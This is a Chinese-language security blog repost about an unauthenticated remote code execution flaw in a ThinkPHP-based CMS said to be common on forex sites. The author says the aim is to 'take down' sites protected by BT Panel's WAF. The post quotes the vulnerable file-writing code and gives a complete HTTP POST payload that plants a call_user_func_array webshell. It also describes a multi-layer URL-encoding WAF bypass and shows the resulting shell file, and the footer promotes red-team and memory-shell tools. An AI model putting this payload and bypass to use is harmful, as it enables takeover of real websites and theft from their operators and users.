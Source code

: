 #  实战 | 某外汇常用CMS通用未授权RCE   
 系统安全运维   2024-08-25 10:36  
  
> 某妞子发给我的一个cms，有各种注入，但是网上大部分站点都是用宝塔搭建的，并且开了waf的功能，索性审一个rce直接日下。  
  
  
程序是基于ThinkPHP3.1.3进行二次开发的，直接根据特征从Github找了个源代码下来审，注入就不说了，直接看RCE：  
  
Admin/Lib/Action/typeAction.class.php  
```
public function add_save()
{
        $data=pg('data');
        M('classify_type')->data($data)->add();
 
        $sql='
        CREATE TABLE index_'.$data['table_name'].' (
          '.$data['table_name'].'_id int(10) NOT NULL AUTO_INCREMENT,
          type_id int(10) NOT NULL,
          date int(10) NOT NULL,
          title varchar(99) NOT NULL,
          keywords varchar(99) NOT NULL,
          description varchar(10) NOT NULL,
          version_id int(10) NOT NULL,
          PRIMARY KEY ('.$data['table_name'].'_id)
        ) ENGINE=InnoDB DEFAULT CHARSET=utf8;';
        M()->query($sql);
 
        if(!file_exists('Index/Lib/Action/'.$data['table_name'].'Action.class.php'))
        {
            copy('Index/Lib/Action/messageAction.class.php','Index/Lib/Action/'.$data['table_name'].'Action.class.php');
            $content=read_file('Index/Lib/Action/'.$data['table_name'].'Action.class.php');
            $content=str_replace('messageAction',$data['table_name'].'Action',$content);
            write_file('Index/Lib/Action/'.$data['table_name'].'Action.class.php',$content);
            copy_dir('Index/Tpl/message','Index/Tpl/'.$data['table_name']);
        }
 
        echo '操作成功';
    }
```  
  
直接从参数获取data数组，没有任何检验/过滤/认证，后面用了write_file函数，跟进去看看  
  
ThinkPHP/Common/common.php  
```
function write_file($path,$data)
{
    creat_file($path);
    $fp=fopen($path,"w+");
    if(!fwrite($fp,$data))
    {
        return false;
    }
    else
    {
        fclose($fp);
        return true;
    }
}
```  
  
很简单的一个函数，根据参数直接写文件，再回头看看刚才的代码：  
```
write_file('Index/Lib/Action/'.$data['table_name'].'Action.class.php',$content);
```  
  
文件名是php格式，如果$content可控，那就直接RCE了，$content内容是复制Index/Lib/Action/messageAction.class.php的，然后根据指定参数进行替换，先看下代码：  
  
Index/Lib/Action/messageAction.class.php  
```
<?php
class messageAction extends Action {
    public function index(){
        $this->display();
    }
 
    public function details(){
        $this->display();
    }
    public function add_save()
{
        $data = pg('data');
        $type_id = $data['type_id'];
        $classify_id = pg('classify_id');
        $table_name = M('classify_type')->where(array('type_id' => $type_id))->getField('table_name');
        $content = M($table_name)->where(array($table_name.'_id' => $content_id))->select();
        $list = M('input')->where(array('type_id' => $type_id, 'show_switch' => 2, 'input_type_id' => 4))->select();
        foreach($list as $k => $v){
            $data[$v['field_name']]=serialize($data[$v['field_name']]);
        }
 
        $list = M('input')->where(array('type_id' => $type_id, 'show_switch' => 2, 'input_type_id' => 7))->select();
        foreach($list as $k => $v){
            if(!empty($_FILES[$v['field_name']]['tmp_name'])){
                $data[$v['field_name']] = $this->up_file(array('name' => $v['field_name']));
            }
        }
 
        $list = M('input')->where(array('type_id' => $type_id, 'show_switch' => 2, 'input_type_id' => 8))->select();
        foreach($list as $k => $v)
        {
            $data[$v['field_name']]=strtotime($data[$v['field_name']]);
        }
 
        $id = M($table_name)->data($data)->add();
        M('relevance')->data(array('classify_id'=> $classify_id, 'content_id' => $id, 'main_id' => 1, 'type_id' => $type_id))->add();
        $this->success('提交成功');
    }
}
```  
  
也就是第二行的messageAction会替换成参数指定的，但是文件名同时也会被修改，所以很多Payload在这边是没办法使用的，然后还有一个宝塔WAF要绕过，直接给Payload：  
```
POST /admin.php?m=type&a=add_save HTTP/1.1
Host: www.xxx.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 205
Connection: close
Pragma: no-cache
Cache-Control: no-cache
 
data%5Bdate%5D=1606456937&data%5Btype_name%5D=123&data%5Btable_name%5D=abc{}call_user_func_array($_REQUEST[a],array($_REQUEST[b][0],urldecode(urldecode($_REQUEST[b][1])))); class &data%5Bpage_name%5D=index

```  
  
大部分的函数在流量就被拦截了，但是他忽略了urlencode，只需要多弄几个urlencode就可以绕过流量了。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/IXOicg347dAjzwOeInc5KGZZic5tCvIfa3QIWdGKM1AQVn6Tu0N7h9CAHW8UthB4ic9U4vPZvjpKaXzwb2s6748Xw/640?wx_fmt=jpeg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
最后建立的文件长这样：  
```
http://www.xxx.com/Index/Lib/Action/abc{}call_user_func_array($_REQUEST[a],array($_REQUEST[b][0],urldecode(urldecode($_REQUEST[b][1])))); class Action.class.php
```  
```
<?php
class abc{}call_user_func_array($_REQUEST[a],array($_REQUEST[b][0],urldecode(urldecode($_REQUEST[b][1])))); class Action extends Action {
    public function index(){
        $this->display();
    }
 
    public function details(){
        $this->display();
    }
    public function add_save()
{
        $data = pg('data');
        $type_id = $data['type_id'];
        $classify_id = pg('classify_id');
        $table_name = M('classify_type')->where(array('type_id' => $type_id))->getField('table_name');
        $content = M($table_name)->where(array($table_name.'_id' => $content_id))->select();
        $list = M('input')->where(array('type_id' => $type_id, 'show_switch' => 2, 'input_type_id' => 4))->select();
        foreach($list as $k => $v){
            $data[$v['field_name']]=serialize($data[$v['field_name']]);
        }
 
        $list = M('input')->where(array('type_id' => $type_id, 'show_switch' => 2, 'input_type_id' => 7))->select();
        foreach($list as $k => $v){
            if(!empty($_FILES[$v['field_name']]['tmp_name'])){
                $data[$v['field_name']] = $this->up_file(array('name' => $v['field_name']));
            }
        }
 
        $list = M('input')->where(array('type_id' => $type_id, 'show_switch' => 2, 'input_type_id' => 8))->select();
        foreach($list as $k => $v)
        {
            $data[$v['field_name']]=strtotime($data[$v['field_name']]);
        }
 
        $id = M($table_name)->data($data)->add();
        M('relevance')->data(array('classify_id'=> $classify_id, 'content_id' => $id, 'main_id' => 1, 'type_id' => $type_id))->add();
        $this->success('提交成功');
    }
}
```  
```
作者：hzllaga
来源：https://wtfsec.org/posts/%e6%9f%90%e5%a4%96%e6%b1%87%e5%b8%b8%e7%94%a8cms%e9%80%9a%e7%94%a8%e6%9c%aa%e6%8e%88%e6%9d%83rce/
如有侵权，请联系删除
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
如有侵权，请联系删除  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QO6oDpE0HEmt8Ss52ibJFcYB7ZHBRVbIpxr9XXibHdW6Eib11FYq0FDZFNMUgDMcqTyfs6iaX8OtFdlL6ypEVHCLrw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
好文推荐  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QO6oDpE0HEmt8Ss52ibJFcYB7ZHBRVbIpzdIMlC9plAr8AiaQRUUvBFXZM2scib9zTnRyp0XZQxSUYAWWS0avKrCA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
[红队打点评估工具推荐](http://mp.weixin.qq.com/s?__biz=Mzk0NjE0NDc5OQ==&mid=2247508839&idx=1&sn=abc801070b0e44475887ddbf7273c2e7&chksm=c3087017f47ff901ecb212aadc22c5cbfc6407da79b43a6f48a355cc3fd8c5af79c113db5fd1&scene=21#wechat_redirect)  
  
  
[干货|红队项目日常渗透笔记](http://mp.weixin.qq.com/s?__biz=Mzk0NjE0NDc5OQ==&mid=2247509256&idx=1&sn=76aad07a0f12d44427ce898a6ab2769e&chksm=c3087678f47fff6e2b750f41514d933390a8f97efef8ed18af7d8fb557500009381cd434ec26&scene=21#wechat_redirect)  
  
  
[实战|后台getshell+提权一把梭](http://mp.weixin.qq.com/s?__biz=Mzk0NjE0NDc5OQ==&mid=2247508609&idx=1&sn=f3fcd8bf0e75d43e3f26f4eec448671f&chksm=c30871f1f47ff8e74551b09f092f8673890607257f2d39c0efa314d1888a867dc718cc20b7b3&scene=21#wechat_redirect)  
  
  
[一款漏洞查找器（挖漏洞的有力工具）](http://mp.weixin.qq.com/s?__biz=Mzk0NjE0NDc5OQ==&mid=2247507539&idx=2&sn=317a2c6cab28a61d50b22c07853c9938&chksm=c3080d23f47f8435b31476b13df045abaf358fae484d8fbe1e4dbd2618f682d18ea44d35dccb&scene=21#wechat_redirect)  
  
  
[神兵利器 | 附下载 · 红队信息搜集扫描打点利器](http://mp.weixin.qq.com/s?__biz=Mzk0NjE0NDc5OQ==&mid=2247508747&idx=1&sn=f131b1b522ee23c710a8d169c097ee4f&chksm=c308707bf47ff96dc28c760dcd62d03734ddabb684361bd96d2f258edb0d50e77cdb63a3600a&scene=21#wechat_redirect)  
  
  
[神兵利器 | 分享 直接上手就用的内存马（附下载）](http://mp.weixin.qq.com/s?__biz=Mzk0NjE0NDc5OQ==&mid=2247506855&idx=1&sn=563506565571f1784ad1cb24008bcc06&chksm=c30808d7f47f81c11b8c5f13ce3a0cc14053a77333a251cd6b2d6ba40dc9296074ae3ffd055e&scene=21#wechat_redirect)  
  
  
[推荐一款自动向hackerone发送漏洞报告的扫描器](http://mp.weixin.qq.com/s?__biz=Mzk0NjE0NDc5OQ==&mid=2247501261&idx=1&sn=0ac4d45935842842f32c7936f552ee21&chksm=c30816bdf47f9fab5900c9bfd6cea7b1d99cd32b65baec8006c244f9041b25d080b2f23fd2c1&scene=21#wechat_redirect)  
  
  
  
**关注我，学习网络安全不迷路**  
  
  
**求点赞关注～**  
  
